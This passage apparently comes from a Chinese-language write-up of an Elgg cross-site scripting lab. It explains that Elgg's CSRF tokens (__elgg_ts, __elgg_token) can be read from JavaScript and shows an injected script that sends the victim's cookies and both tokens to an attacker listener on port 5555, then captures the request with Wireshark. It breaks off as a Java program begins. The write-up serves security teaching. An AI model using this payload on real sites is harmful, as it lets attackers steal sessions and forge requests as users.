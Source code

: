     搜索一下这两个东西，在[elgg的开发者指南](http://learn.elgg.org/en/stable/guides/actions.html)中有提到，这两个是用于对抗CSRF攻击的（原理暂时还没弄清楚），并且：
    > You can also access the tokens from javascript:
    >
    > ```
    > elgg.security.token.__elgg_ts;
    > elgg.security.token.__elgg_token;
    > ```
    >
    > These are refreshed periodically so should always be up-to-date.

    修改task3中的js并嵌入网页。
    ```js
    <script>
    document.write('<img src=http://www.soplab.com:5555?c=cookie:' + escape(document.cookie)
        + escape('ts:' + elgg.security.token.__elgg_ts + 'token:' + elgg.security.token.__elgg_token)+' >');
        </script>
    ```
    攻击者用wireshark监听5555端口收到的http消息，得到：

    ![wireshark监听结果](./img/wireshark.png)

    3. 修改指南中的java程序如下：
    ```java
    import java.io.*;
    import java.net.*;

